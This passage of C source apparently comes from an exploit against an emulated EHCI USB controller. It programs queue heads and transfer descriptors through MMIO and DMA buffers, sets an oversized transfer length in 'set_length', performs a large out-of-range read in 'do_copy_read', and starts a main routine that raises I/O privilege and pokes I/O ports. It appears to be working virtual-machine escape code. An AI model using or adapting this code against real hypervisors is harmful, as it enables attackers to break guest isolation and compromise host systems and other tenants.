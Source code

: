 ```c
mmio_write(0x64,0x4);
qh->epchar=0x00;
qh->token=1<<7;
qh->current_qtd=virt2phys(dmabuf+0x200);
struct EHCIqtd * qtd;
qtd=dmabuf+0x200;
qtd->token=1<<7 | 2<<8 | 8<<16;
qtd->bufptr[0]=virt2phys(dmabuf+0x300);
setup_buf[6]=0xff;
setup_buf[7]=0x0;
dmabuf32[0]=virt2phys(dmabuf+0x100)+0x2;
mmio_write(0x28,0x0);
mmio_write(0x30,0x0);
mmio_write(0x38,virt2phys(dmabuf));
mmio_write(0x34,virt2phys(dmabuf));
mmio_write(0x20,0x11);
}

void set_length(uint16_t len,uint8_t in){
mmio_write(0x64,0x100);
mmio_write(0x64,0x4);
setup_buf[0]=in;
setup_buf[6]=len&0xff;
setup_buf[7]=(len>>8)&0xff;
qh->epchar=0x00;
qh->token=1<<7;
qh->current_qtd=virt2phys(dmabuf+0x200);

qtd->token=1<<7 | 2<<8 | 8<<16;
qtd->bufptr[0]=virt2phys(dmabuf+0x300);
dmabuf32[0]=virt2phys(dmabuf+0x100)+0x2;
mmio_write(0x28,0x0);
mmio_write(0x30,0x0);
mmio_write(0x38,virt2phys(dmabuf));
mmio_write(0x34,virt2phys(dmabuf));
mmio_write(0x20,0x11);
}

void do_copy_read(){
mmio_write(0x64,0x100);
mmio_write(0x64,0x4);

qh->epchar=0x00;
qh->token=1<<7;
qh->current_qtd=virt2phys(dmabuf+0x200);
qtd->token=1<<7 | 1<<8 | 0x1f00<<16;
qtd->bufptr[0]=virt2phys(dmabuf+0x1000);
qtd->bufptr[1]=virt2phys(dmabuf+0x2000);
dmabuf32[0]=virt2phys(dmabuf+0x100)+0x2;
mmio_write(0x28,0x0);
mmio_write(0x30,0x0);
mmio_write(0x38,virt2phys(dmabuf));
mmio_write(0x34,virt2phys(dmabuf));
mmio_write(0x20,0x11);
}

int main()
{
    init();
    iopl(3);
    outw(0,0xc0c0);
    outw(0,0xc0e0);
    outw(0,0xc010);
```